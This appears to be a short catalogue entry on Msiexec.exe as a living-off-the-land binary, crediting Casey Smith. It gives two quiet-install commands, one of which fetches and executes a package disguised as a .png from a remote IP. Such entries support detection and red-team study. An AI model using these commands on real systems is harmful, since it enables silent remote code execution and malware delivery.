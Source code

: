 ## Msiexec.exe

* Functions: Execute

```
msiexec /quiet /i cmd.msi
msiexec /q /i http://192.168.100.3/tmp/cmd.png
```

Acknowledgements:
* Casey Smith - @subtee